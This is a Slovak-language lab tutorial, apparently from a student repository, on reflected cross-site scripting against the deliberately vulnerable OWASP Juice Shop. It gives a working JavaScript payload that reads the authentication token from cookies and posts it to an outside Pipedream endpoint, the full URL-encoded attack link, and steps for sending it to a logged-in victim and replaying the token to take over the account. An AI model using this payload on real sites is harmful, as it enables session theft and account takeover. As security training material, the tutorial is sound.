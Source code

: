 # Reflected cross site scripting (XSS)

### Prostredie: Juice-Shop - https://github.com/juice-shop/juice-shop#from-sources

- Reflektovaný XSS využíva pridávanie neovereného vstupu priamo do tela stránky čím umožnuje spustenie kódu útočníka.
- Po spustení aplikácie a zaregistrovaní sa prejdeme do sekcii v menu "Objednávky a platby".
- V url sa nám zobrazujú objednávky podľa parametru id. V detaile objednávky vidíme informácie o stave a id objednávky vložené z url parametru.
- Takáto konštrukcia má potencionálnu zraniteľnosť a to, že vpisujeme neoverený vstup priamo do DOM stránky.
- V zdrojovom kóde juice-shopu v komponente track-result.component.html (angular komponent) je hodnota id vkladaná do DOM cez zraniteľnú metódu "innerHTML". To nám v prípade neoverenia vstupu umožňuje aplikovať reflektovaný XSS útok.
- Do url parametru môžeme vložiť škodlivý kód, ktorý bude priamo vložený do tela stránky.
  ```
          const headers = new Headers();
          headers.append("Content-Type", "text/plain");

          const body = {
          test: "event",
          };

          const options = {
          method: "POST",
          headers,
          mode: "cors",
          body: document.cookie.split("")[4].split("=")[1],
          };

        // Doplnit endpoint vygenerovany sluzbou Pipedream
        fetch("pipedream-endpoint", options); 
- Kód vytvorí HTTP požiadavku na daný endpoint a odošle autentifikačný token z cookie súborov. 
- V kóde sa nachádza komentár nad funkciou fetch(). Pomocou služby Pipedream musíme vygenerovať nový endpoint a jeho url adresu vložiť do funkcie. Na adrese https://pipedream.com/ si vytvoríme
    nový projekt. Po vytvorení projektu vygenerujeme endpoint a v sekcii "trigger" skopírujeme url adresu a vložíme do nášho kódu.
- Kód musíme vložiť do atribútu "src" značky "iframe" aby ho stránka vedeľa vyhodnotiť.

   ```
   <iframe src="javascript:......" />
  ```
- Kód ešte potrebujeme zakódovať tak, aby ho prehliadač vedel prijať ako validný parameter (online enkóder a dekóder - https://www.urlencoder.org/). Zakodovanú url vložíme do parametru id a spustíme. Celá url môže vyzerať nasledovne:

         http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript%3Aconst%20headers%20%3D%20new%20Headers
              ()%3Bheaders.append(%60Content-Type%60%2C%20%60text%2Fplain%60)%3Bconst%20body%20%3D%20%7Btest%3A%20%60event%60
              %2C%7D%3Bconst%20options%20%3D%20%7Bmethod%3A%20%60POST%60%2Cheaders%2Cmode%3A%20%60cors%60%2Cbody%3A%20document
              .cookie.split(%60%20%60)%5B4%5D.split(%60%3D%60)%5B1%5D%7D%3Bfetch(%60https%3A%2F%2Feojph9o2kgja7k2.m.pipedream.
              net%60%2C%20options)%3B%22%3E%3C%2Fiframe%3E">
              http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript%3Aconst%20headers%20%3D%20new%20Headers
              ()%3Bheaders.append(%60Content-Type%60%2C%20%60text%2Fplain%60)%3Bconst%20body%20%3D%20%7Btest%3A%20%60event%60
              %2C%7D%3Bconst%20options%20%3D%20%7Bmethod%3A%20%60POST%60%2Cheaders%2Cmode%3A%20%60cors%60%2Cbody%3A%20document
              .cookie.split(%60%20%60)%5B4%5D.split(%60%3D%60)%5B1%5D%7D%3Bfetch(%60https%3A%2F%2Feojph9o2kgja7k2.m.pipedream.
              net%60%2C%20options)%3B%22%3E%3C%2Fiframe%3E"

- Skopírovanú url môžeme poslať používateľovi a v prípade, že je používateľ prihláseny v systéme, odošle na náš endpoint jeho autentifikačný token.
- Získaný token vložíme do lokálneho úložiska aplikácie a týmto spôsobom sa prihlásme do účtu používateľa.

- Video návod sa nachádza v priečinku "video_instructions": /video_instructions/reflected-xss.mp4 (https://github.com/MatusVetrik/dp-attacks-instructions/blob/main/video_instructions/reflected-xss.mp4)
